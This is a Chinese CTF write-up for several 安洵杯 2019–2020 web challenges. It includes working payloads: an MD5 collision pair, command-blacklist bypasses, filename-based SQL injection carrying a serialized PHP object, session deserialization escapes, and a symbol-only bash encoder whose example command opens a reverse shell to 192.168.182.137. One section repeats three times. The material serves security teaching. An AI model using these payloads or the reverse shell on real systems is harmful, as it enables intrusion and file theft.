


# [安洵杯 2018]

# [安洵杯 2019]

## easy_web

### 知识点

> 可控img，获得源码
>
> 强类型比较绕过


### 获取源码

进去后查看源码等，都没有想要的东西，然后发现有两个参数，img和cmd，以为只是一个简单的命令执行，一直给cmd传参，发现返回一直错误，去网上找大佬们的wp，才知道这里疑似利用了一个ssrf漏洞，他利用img读取本地的文件，然后显示在左上角，我们可以控制img的参数，把它修改成我们需要读取的文件

这里首先要搞懂img参数的加密方式，本以为只是一个简单的base64加密，解密后发现并不是，

两次base64解码后得到：


这里很明显是一个Hex加密，解密后为：555.png，

同理，当我们想要读取index.php文件时，先把index.php转换成16进制，再进行两次base64编码，得到index.php源码


解码：

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd']))
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
    body{
        background:url(./bj.png)  no-repeat center center;
        background-size:cover;
        background-attachment:fixed;
        background-color:#CCCCCC;
    }
</style>
<body>
</body>
</html>
```

分析一下这串代码，首先我们需要传进去一个cmd参数，然后正则匹配，cmd不能等于ls，cat等，但是我们可以使用ca\t,l\s等来执行命令，绕过后执行：

```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo \`$cmd\`;
    } else {
        echo ("md5 is funny ~");
    }

```

这里是一个哈希比较缺陷，我所知道的只有数组绕过和常规的0e绕过，但试过之后发现都不行，这题用的是强类型碰撞,至于为什么前两种不行，我认为oe绕过不行是因为这里用的是===，而数组不行使因为数组没法转换为字符串，无法绕过`(string)$_POST['a'] !== (string)$_POST['b']` 

### md5强类型碰撞

```
$Param1="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
$Param2="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
```

```
$data1="\xd1\x31\xdd\x02\xc5\xe6\xee\xc4\x69\x3d\x9a\x06\x98\xaf\xf9\x5c\x2f\xca\xb5\x07\x12\x46\x7e\xab\x40\x04\x58\x3e\xb8\xfb\x7f\x89\x55\xad\x34\x06\x09\xf4\xb3\x02\x83\xe4\x88\x83\x25\xf1\x41\x5a\x08\x51\x25\xe8\xf7\xcd\xc9\x9f\xd9\x1d\xbd\x72\x80\x37\x3c\x5b\xd8\x82\x3e\x31\x56\x34\x8f\x5b\xae\x6d\xac\xd4\x36\xc9\x19\xc6\xdd\x53\xe2\x34\x87\xda\x03\xfd\x02\x39\x63\x06\xd2\x48\xcd\xa0\xe9\x9f\x33\x42\x0f\x57\x7e\xe8\xce\x54\xb6\x70\x80\x28\x0d\x1e\xc6\x98\x21\xbc\xb6\xa8\x83\x93\x96\xf9\x65\xab\x6f\xf7\x2a\x70";
  $data2="\xd1\x31\xdd\x02\xc5\xe6\xee\xc4\x69\x3d\x9a\x06\x98\xaf\xf9\x5c\x2f\xca\xb5\x87\x12\x46\x7e\xab\x40\x04\x58\x3e\xb8\xfb\x7f\x89\x55\xad\x34\x06\x09\xf4\xb3\x02\x83\xe4\x88\x83\x25\x71\x41\x5a\x08\x51\x25\xe8\xf7\xcd\xc9\x9f\xd9\x1d\xbd\xf2\x80\x37\x3c\x5b\xd8\x82\x3e\x31\x56\x34\x8f\x5b\xae\x6d\xac\xd4\x36\xc9\x19\xc6\xdd\x53\xe2\xb4\x87\xda\x03\xfd\x02\x39\x63\x06\xd2\x48\xcd\xa0\xe9\x9f\x33\x42\x0f\x57\x7e\xe8\xce\x54\xb6\x70\x80\xa8\x0d\x1e\xc6\x98\x21\xbc\xb6\xa8\x83\x93\x96\xf9\x65\x2b\x6f\xf7\x2a\x70";
```

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

这里过滤了大部分命令执行的语句

```
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\
```

这里想到
 **linux命令中可以加\，所以甚至可以ca\t /fl\ag**
 查看当前目录有没有flag:
 

并没有。。

去根目录下找flag：
 

发现flag，读取：

禁用cat之后，cmd=/bin/c\at%20/flag
 

看网上还有一种方法读取flag：

sort命令：sort将文件的每一行作为一个单位，相互比较，比较原则是从首字符向后，依次按ASCII码值进行比较，最后将他们按升序输出。


 参考链接
 https://www.jianshu.com/p/21e3e1f74c08


```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

这里过滤了大部分命令执行的语句

```
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\
```

这里想到
 **linux命令中可以加\，所以甚至可以ca\t /fl\ag**
 查看当前目录有没有flag:
 

并没有。。

去根目录下找flag：
 

发现flag，读取：

禁用cat之后，cmd=/bin/c\at%20/flag
 

看网上还有一种方法读取flag：

sort命令：sort将文件的每一行作为一个单位，相互比较，比较原则是从首字符向后，依次按ASCII码值进行比较，最后将他们按升序输出。


```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

```

​    得到flag

## 不是文件上传

先试了下文件上传,发现好像真的没有问题,

然后在index.html最下方有提示，可以在github上下载源码进行审计。


在helper.php中存在读取文件内容函数，并且可以使用destruct函数自动触发。

```php
public function view_files($path){
		if ($this->ifview == False){
			return False;
			//The function is not yet perfect, it is not open yet.
		}
		$content = file_get_contents($path);
		echo $content;
	}

	function __destruct(){
		# Read some config html
		$this->view_files($this->config);
	}
```

如果可以构造如下的类并将序列化字符串传入，就可以读取到flag

```php
<?php
class helper {
    protected $ifview = True;
    protected $config = "";
    public function __construct() {
  	$this->config = "flag";
    }
}
$a = new helper();
$b = serialize($a);
var_dump($b);
?>
```

在show.php中存在反序列化函数，跟随变量`attr_temp`，看到此变量来源于数据库中`attr`列。

```php
public function Get_All_Images(){
		$sql = "SELECT * FROM images";
		$result = mysqli_query($this->con, $sql);
		if ($result->num_rows > 0){
		    while($row = $result->fetch_assoc()){
		    	if($row["attr"]){
		    		$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
					$attr = unserialize($attr_temp);
				}
		        echo "<p>id=".$row["id"]." filename=".$row["filename"]." path=".$row["path"]."</p>";
		    }
		}else{
		    echo "<p>You have not uploaded an image yet.</p>";
		}
		mysqli_close($this->con);
	}
```

在helper.php中的`upload`函数中我们得知数据库一共有`title`，`filename`，`ext`，`path`，`attr`五列，其中`attr`列内容来源于上传图像的长宽序列化数组，很难进行控制。

```php
$array["title"] = $fileinfo['title'];
$array["filename"] = $fileinfo['filename'];
$array["ext"] = $fileinfo['ext'];
$array["path"] = $fileinfo['path'];
$img_ext = getimagesize($_FILES[$input]["tmp_name"]);
$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
$array["attr"] = serialize($my_ext);
```

查看helper.php中的数据库操作函数，对输入数据库的数据没有做任何过滤。

```php
foreach($data as $key=>$value){
			$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
			$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
			$sql_fields[] = "`".$key_temp."`";
			$sql_val[] = "'".$value_temp."'";
		}
		$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
		mysqli_query($con, $sql);
```

回想前面的5列中，我们可控的且没有过滤的是`filename`列也就是文件名，可以构造文件名为序列化字符串，出发unserialize函数，读取任意文件。

```php
title_value','filename_value','ext_value','path_value','O:6:"helper":2:{s:9:"*ifview";b:1;s:9:"*config";s:4:"flag";}#php
```

难题是在序列化中，所有的`private`和`protected`变量序列化之后都会出现不可见字符。将序列化的内容输出，使用`Hex Fiend`打开，可以看到在星号`*`两侧是存在不可见字符`00`的。直接复制输出的话是无法传入这两个字符的。在前面数据库插入操作的时候，将00*00转换为\0\0\0了，在反序列化之前又转换了回来。

由于上传时文件名不允许出现引号，配合数据库将0x开头的字符串默认为16进制的特点，最终payload为

```sql
1','1','1','1',0x4F3A363A2268656C706572223A323A7B733A393A22002A00696676696577223B623A313B733A393A22002A00636F6E666967223B733A353A222F666C6167223B7D)#.jpg
```

将实际插入数据库的语句改写为，完成注入，反序列化读取数据库中的恶意代码，访问show.php,完成文件读取。

```sql
INSERT INTO images('title','filename','ext','path','attr') VALUES ('1','1','1','1',0x4F3A363A2268656C706572223A323A7B733A393A22002A00696676696577223B623A313B733A393A22002A00636F6E666967223B733A353A222F666C6167223B7D)#)
```

## easy_serialize_php

首先进去就可以看到源码

```php
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);                            //extract变量覆盖

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));  //sha1加密
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

### 知识点

- extract变量覆盖
- 反序列化字符串逃逸

### 解题

首先查看phpinfo发现php.ini中设置了auto_prepend_file隐式包含了d0g3_f1ag.php,本题就是要读取该文件

#### 0x01 extract变量覆盖

extract()函数 该函数使用数组键名作为变量名，使用数组的键值作为变量值



其实本是知道这个知识点的,但是理解不够深入,导致自己一直没有利用到该知识点


当我们$_GET传入的是\_session[img]=“index.php"时,经过了extract函数后会产生$\_session[img]=index.php

这里分析代码

先是赋值:

$\_SESSION["user"] = 'guest';
$\_SESSION['function'] = $function;  //若想要显示源码,$f='show_image';

$\_SESSION['img']也只能等于base64_encode('guest_img.png');因为若我们传入参数img_PATH的话img的值会进行sha1加密,而后面是没有解密的

可知三个变量都是我们不能控制的,这里就能够有很多种解了,通过extract()进行变量覆盖

#### 0x02 反序列化字符串逃逸

_session可控后,就可以有很多种解法了,这里提供两种解法:

##### 值逃逸

payload1`:_SESSION[user]=flagflagflagflagflagflagflagphp&_SESSION[function]=function";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`
传入的字符串反序列化后:

```php
a:3;{s:4:"user";s:31:"flagflagflagflagflagflagflagphp";
s:8:"function";s:82:"function";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";
    s:3:"img";s:x:"base64";}
```

经过过滤函数后:

```php
a:3;{s:4:"user";s:31:"";s:8:"function";s:82:"function";
s:8:"function";s:10:"show_image";
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
    //;"s:3:"img";s:x:"base64";}
```

##### 键逃逸

payload2:`_SESSION[flagphp]=;s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

```php
传入的字符串反序列化后:
a:2:{s:7:"flagphp";  s:48:";s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";
s:3:"img";s:x:"base64";}
```

```php
经过过滤函数后:
a:2:{s:7:"";s:48:";  s:1:"a";
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}" 
//;"s:3:"img";s:x:"base64";}
```

还有就是写payload最好在本地写,然后看它反序列化后的样子在更改,不然有些小毛病自己发现不了(现在能力太差了)



然后继续读就可以了


# [安洵杯 2020]

## Web-Bash-Vino0o0o

题目代码

```php
<?php
highlight_file(__FILE__);
if(isset($_POST["cmd"]))
{
    $test = $_POST['cmd'];
    $white_list = str_split('${#}\\(<)\'0'); 
    $char_list = str_split($test);
    foreach($char_list as $c){
        if(!in_array($c,$white_list)){
                die("Cyzcc");
            }
        }
    exec($test);
}
?>
```

首先我们需要了解linux的一些前置知识

linux中的特殊变量: https://blog.csdn.net/w746805370/article/details/51044352

${},$(),$(())的区别: https://wiki.jikexueyuan.com/project/13-questions-of-shell/eight.html

首先我们

1. 可以利用八进制的方法绕过一些ban了字母的题，示例如下：

   [](https://xiaoyngtuo.oss-cn-chengdu.aliyuncs.com/img/1.png)

2. 当我们了解这些后, 就可以用给出的字符构造出:

```python
n=dict();
n[0]="$#";                               #00
n[1]="${##}";                           #01
n[2]="$((${##}<<${##}))"               #10
n[3]="$(($((${##}<<${##}))|${##}))"   #11
n[4]="$(($((${##}<<${##}))<<${##}))" #100
n[5]="$(($(($((${##}<<${##}))<<${##}))|${##}))" #101
n[6]="$(($(($((${##}<<${##}))<<${##}))|$((${##}<<${##}))))" #101
n[7]="$(($(($(($((${##}<<${##}))<<${##}))|${##}))|$((${##}<<${##}))))"   #111
```

然后发现错了,因为不能包含  |  

```python
n = dict()
n[0] = '0'
n[1] = '${##}'                                   #${##}计算#这个字符的长度为1，这里如果没有屏蔽!的话还可以用$((!$#))
n[2] = '$((${##}<<${##}))'                       #通过位运算得到2
n[3] = '$(($((${##}<<${##}))#${##}${##}))'       #通过二进制11转换为十进制得到3,4,5,6,7
n[4] = '$((${##}<<$((${##}<<${##}))))'
n[5] = '$(($((${##}<<${##}))#${##}0${##}))'
n[6] = '$(($((${##}<<${##}))#${##}${##}0))'
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))'
```

​			3.转换成数字之后就需要用到`<<<`来重定向了，但是一层不够，只用一层会出现`bash: $'\154\163': command not found`这样的报错，得知bash一次解析只能解析到成数字，需要第二次解析。因此需要给原先的命令添加转义字符，最终构造出如下payload:`$0<<<$0\<\<\<\$\'\\${##}$(($((${##}<<${##}))#${##}0${##}))$((${##}<<$((${##}<<${##}))))\\${##}$(($((${##}<<${##}))#${##}${##}0))$(($((${##}<<${##}))#${##}${##}))\\$((${##}<<$((${##}<<${##}))))0\\$(($((${##}<<${##}))#${##}0${##}))$(($((${##}<<${##}))#${##}${##}${##}))\'`执行`ls`命令

脚本

```python
import requests
n = dict()
n[0] = '0'
n[1] = '${##}'                                   #${##}计算#这个字符的长度为1，这里如果没有屏蔽!的话还可以用$((!$#))
n[2] = '$((${##}<<${##}))'                       #通过位运算得到2
n[3] = '$(($((${##}<<${##}))#${##}${##}))'       #通过二进制11转换为十进制得到3,4,5,6,7
n[4] = '$((${##}<<$((${##}<<${##}))))'
n[5] = '$(($((${##}<<${##}))#${##}0${##}))'
n[6] = '$(($((${##}<<${##}))#${##}${##}0))'
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))'

cmd="bash -i >& /dev/tcp/192.168.182.137/2333 0>&1";
def str_to_oct(cmd):  # 命令转换成八进制字符串
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s += '\\' + o
    return s
def build(cmd):  # 八进制字符串转换成字符
    payload = "$0<<<$0\<\<\<\$\\\'"
    s = str_to_oct(cmd).split('\\')
    for _ in s[1:]:
        payload += "\\\\"
        for i in _:
            payload += n[int(i)]
    return payload + '\\\''
print(build(cmd))
```

